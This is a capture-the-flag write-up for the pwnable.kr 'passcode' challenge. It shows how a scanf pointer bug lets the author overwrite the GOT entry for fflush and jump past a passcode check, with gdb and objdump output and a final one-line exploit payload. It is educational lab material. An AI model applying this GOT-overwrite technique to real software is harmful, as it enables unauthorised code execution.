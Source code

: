 ```yaml
---
layout: post
title: Pwnable.kr Passcode Walk-through
---
```


## Pwnable.kr Passcode Walk-though
Here is a walk-through of the passcode challenge on [Pwnable.kr](http://pwnable.kr/play.php).

After logging into the remote server, we can look at the C source. The authentication check seems pretty simple:

    if (passcode1 == 338150 && passcode2 == 13371337) {
        printf("Login OK!\n");
        system("/bin/cat flag");
    }

Therefore if we can put the correct magic numbers into the two passcode integers the flag will be printed. It can't be 
that simple, can it? Let's run the program and see:

    > ./passcode
    enter you name : matthew
    Welcome matthew!
    enter passcode1 : 338150
    Segmentation fault

Clearly not. The program crashes even with reasonable inputs...

There is a clue in the challenge description that the C program produces compiler warnings. Let's try compiling and
see if that provides any insights. Running:

    gcc passcode.c

fails to create an output file due to permissions, but does provide the following warnings:

    passcode.c: In function ‘login’:
    passcode.c:9:8: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
      scanf("%d", passcode1);
            ^
    passcode.c:14:15: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
             scanf("%d", passcode2);
                   ^

Well, here's the cause of the segmentation fault. The passcodes are being written to arbitrary memory addresses.
This suggests that if we could somehow control these memory addresses we could populate them with data of our choice.

Taking another look at the code we can see that the name input is 100 bytes long. It can't be overflowed, however, due
to the `scanf` format string. Nor is there a format string vulnerability in the subsequent `printf`:

    char name[100];     
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);

OK then. Let's just fill the buffer with 100 'A's and use `gdb` to see what happens:

    > python -c "from __future__ import print_function ; print('A'*100, end='')" > /tmp/pcex123
    gdb -q passcode
    (gdb) set disassembly intel
    (gdb) b login
    (gdb) run < /tmp/pcex123
    (gdb) layout asm

The passcode addresses can be seen looking at the disassembly of the `login` function:

    0x8048577 <login+19>    mov    eax,0x8048783
    0x804857c <login+24>    mov    edx,DWORD PTR [ebp-0x10]
    0x804857f <login+27>    mov    DWORD PTR [esp+0x4],edx
    0x8048583 <login+31>    mov    DWORD PTR [esp],eax
    0x8048586 <login+34>    call   0x80484a0 <__isoc99_scanf@plt>

and:

    0x80485a5 <login+65>    mov    eax,0x8048783
    0x80485aa <login+70>    mov    edx,DWORD PTR [ebp-0xc]
    0x80485ad <login+73>    mov    DWORD PTR [esp+0x4],edx
    0x80485b1 <login+77>    mov    DWORD PTR [esp],eax
    0x80485b4 <login+80>    call   0x80484a0 <__isoc99_scanf@plt>

The only difference between these two blocks of code is the value placed onto the stack from `edx`. For `passcode1` 
it's the content of `ebp-0x10` and for `passcode2` it's the content of `ebp-0xc`. The fact that these two stack addresses
are only 4 bytes apart (the size of an `int`) corroborates that these are the passcodes.

Looking at the content of these addresses:

    (gdb) x/x $ebp-0x10
    0xff8e84d8:     0x41414141
    (gdb) x/x $ebp-0xc
    0xff8e84dc:     0xad1ce200

we can see that `passcode1` has been written into with 'A's (0x41 is the ASCII hex value of 'A'), but `passcode2` has not.

So, we can manipulate the value of `passcode1` but not `passcode2`. That suggests that we need to somehow bypass the
expression in the `if` statement which checks the passcodes. We can't patch the binary, though, since we don't have
permission and the text (code) segment is read-only. What we need is a way to modify data that controls the execution flow.

The Global Offset Table (GOT) holds memory addresses of functions in shared libraries which a process links to
at runtime. Since the memory addresses of the shared functions are not known when the process is compiled, the GOT is
updated during process start-up. This means it is writable by the process and a useful control point for us.

Helpfully (!) there is a library call to `fflush` right after the `scanf` for `passcode1`:

    scanf("%d", passcode1);
    fflush(stdin);

By running:

    objdump -R passcode

we can see that the address of the entry for `fflush` is 0x0804a004:

    passcode:     file format elf32-i386

    DYNAMIC RELOCATION RECORDS
    OFFSET   TYPE              VALUE 
    08049ff0 R_386_GLOB_DAT    __gmon_start__
    0804a02c R_386_COPY        stdin@@GLIBC_2.0
    0804a000 R_386_JUMP_SLOT   printf@GLIBC_2.0
    0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2.0 <----------------
    0804a008 R_386_JUMP_SLOT   __stack_chk_fail@GLIBC_2.4
    0804a00c R_386_JUMP_SLOT   puts@GLIBC_2.0
    0804a010 R_386_JUMP_SLOT   system@GLIBC_2.0
    0804a014 R_386_JUMP_SLOT   __gmon_start__
    0804a018 R_386_JUMP_SLOT   exit@GLIBC_2.0
    0804a01c R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
    0804a020 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7

And looking at the disassembly of the `login` function with:

    objdump -d -Mintel passcode

    ...
    80485e3:       c7 04 24 af 87 04 08    mov    DWORD PTR [esp],0x80487af
    80485ea:       e8 71 fe ff ff          call   8048460 <system@plt>
    ...

we can see that the address we want to write (to jump over the `if` check) is 0x080485e3, which is 134514147 in decimal.

Armed with those two addresses and taking into account that x86 is little-endian, let's try out our exploit:

    python -c "from __future__ import print_function ; print('A'*96 + '\x04\xa0\x04\x08' + '134514147', end='')" | ./passcode

And we capture the flag!
